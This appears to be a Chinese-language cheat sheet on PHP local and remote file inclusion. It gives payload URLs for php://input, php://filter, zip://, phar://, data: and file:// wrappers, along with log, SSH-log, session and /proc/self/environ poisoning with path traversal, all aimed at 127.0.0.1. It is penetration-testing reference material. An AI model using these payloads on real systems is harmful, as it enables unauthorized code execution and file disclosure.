 # 包含漏洞 PHP

## 0x01 基础
### 危险函数
- include()
- include_once()
- require()
- require_once()

### LFI&RFI
>RFI(Remote File Inclusion)  
前提：php.ini中进行配置   
`allow_url_fopen = On`   
`allow_url_include = On`   

## 0x02 漏洞利用

### php伪协议

#### 1. php://input
可以访问请求的原始数据的只读流, 将post请求中的数据作为PHP代码执行

前提：需要开启allow_url_include=on，对allow_url_fopen不做要求

EXP：
```
http://127.0.0.1/index.php?file=php://input 

POST Data:
<?php phpinfo();?>
```

#### 2. php://filter

>前提：只是读取，所以只需要开启allow_url_fopen，对allow_url_include不做要求

EXP:   
```
http://127.0.0.1/index.php?file=php://filter/read=convert.base64-encode/resource=xxx.php
```

#### 3. zip://伪协议
zip://可以访问压缩文件中的文件

>前提：使用zip协议，需要将#编码为%23，所以需要PHP 的版本> =5.3.0，要是因为版本的问题无法将#编码成%23，可以手动把#改成%23。

EXP:
```
http://127.0.0.1/index.php?file=zip://test.zip#shell.php
```
#### 4. phar://伪协议
与zip://协议类似，但用法不同，zip://伪协议中是用#把压缩文件路径和压缩文件的子文件名隔开，而phar://伪协议中是用/把压缩文件路径和压缩文件的子文件名隔开，即

EXP:
```
http://127.0.0.1/index.php?file=phar://test.phar/shell.php
```
#### 5.data:text/plain

和php伪协议的input类似，也可以执行任意代码，但利用条件和用法不同

>前提：allow_url_fopen参数与allow_url_include都需开启

EXP:   
```
http://127.0.0.1/index.php?file=data:text/plain,<?php 执行内容 ?>
http://127.0.0.1/index.php?file=data:text/plain;base64,编码后的php代码
```
#### 6. file://伪协议
file:// 用于访问本地文件系统，且不受allow_url_fopen与allow_url_include的影响。   
EXP:   
```
http://127.0.0.1/index.php?file=file://文件绝对路径
```

### other

#### 7. session
>前提：session文件路径已知，且其中内容部分可控。

常见存放位置：   
- /var/lib/php/sess_PHPSESSID
- /var/lib/php/sess_PHPSESSID
- /tmp/sess_PHPSESSID
- /tmp/sessions/sess_PHPSESSID

session的文件名格式为sess_[phpsessid]。而phpsessid在发送的请求的cookie字段中可以看到。

#### 8. 日志
很多时候，web服务器会将请求写入到日志文件中，比如说apache。在用户发起请求时，会将请求写入access.log，当发生错误时将错误写入error.log。默认情况下，日志保存路径在 /var/log/apache2/。    

#### 9. SSH log
>需要知道ssh-log的位置，且可读。默认情况下为 /var/log/auth.log

EXP:
```
$ ssh '<?php phpinfo(); ?>'@remotehost
```

#### 10. /proc/self/environ
>前提：   
php以cgi方式运行，这样environ才会保持UA头。   
environ文件存储位置已知，且environ文件可读。   

EXP

```
GET /index.php?file=../../../../proc/self/environ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 <?phpinfo();?> 
Connection: close
```

## Ref
- [php文件包含漏洞](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/)
- [浅谈文件包含漏洞](https://xz.aliyun.com/t/7176)